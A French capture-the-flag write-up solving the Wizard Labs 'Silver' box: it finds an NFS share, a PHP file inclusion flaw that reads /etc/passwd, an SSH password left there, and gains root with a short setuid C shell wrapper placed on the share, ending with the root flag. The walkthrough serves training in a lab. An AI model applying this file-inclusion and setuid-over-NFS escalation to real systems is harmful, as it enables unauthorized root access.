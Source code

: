 # Solution du CTF Silver de Wizard Labs

Bronze
------

*Silver* est un CTF de Wizard Labs annoncé avec une difficulté de 4/10.  

Premier élément qui fait tilter tout habitué des CTFs : la présence d'un partage NFS sur la machine :  

```plain
$ showmount -a 10.1.1.36
All mount points on 10.1.1.36:
10.28.12.6:/home/silver/nfs
```

On monte ce partage avec la commande *sudo mount 10.1.1.36:/home/silver/nfs /mnt/* mais il est vide.  

On se doute toutefois qu'on aura à y placer un binaire setuid plus tard :p   

Sur le site web de la box, [Wapiti](http://wapiti.sourceforge.net/) trouve différentes failles dans le paramètre *language* d'une même page (c'est la même faille mais découverte par trois biais différents) :  

* Divulgation de fichier si la valeur est */etc/passwd*
* Exécution de commande via un wrapper PHP (voir capture d'écran plus loin)
* Timeout si la valeur est *http://www.google.com/*

![Wizard Labs CTF Silver include() vulnerability Wapiti report](https://raw.githubusercontent.com/devl00p/blog/master/images/wizard-labs/silver_rce.png)

Autant dire qu'on a affaire à une faille d'inclusion PHP et que l'inclusion distante est activée.  

L'exploitation de cette vulnérabilité peut avoir bien des scénarios différents mais en fait si on lit */etc/passwd* on remarque une ligne explicite à la fin du fichier :  

> ssh password for silver: i'msilver

Gold
----

On obtient donc l'accès sur cette machine 32bits. On écrit le code suivant que l'on compilera avec *-m32* :  

```c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(0, 0);
        system("/bin/bash");
        return 0;
}
```

On le copie ensuite sur le partage NFS avec les droits root + setuid et c'est finit :  

```plain
silver@silver:~/nfs$ ls -l
total 652
-rwsr-xr-x 1 root root 664956 Feb 23 06:37 devloop
silver@silver:~/nfs$ ./devloop
root@silver:~/nfs# id
uid=0(root) gid=1000(silver) groups=1000(silver),4(adm),24(cdrom),30(dip),46(plugdev),109(lpadmin),125(sambashare)
root@silver:~/nfs# cd /root/
root@silver:/root# cat root.txt
3f3d93725cebd44cf7bb1fb327e8a0b1
```


*Published November 17 2020 at 14:08*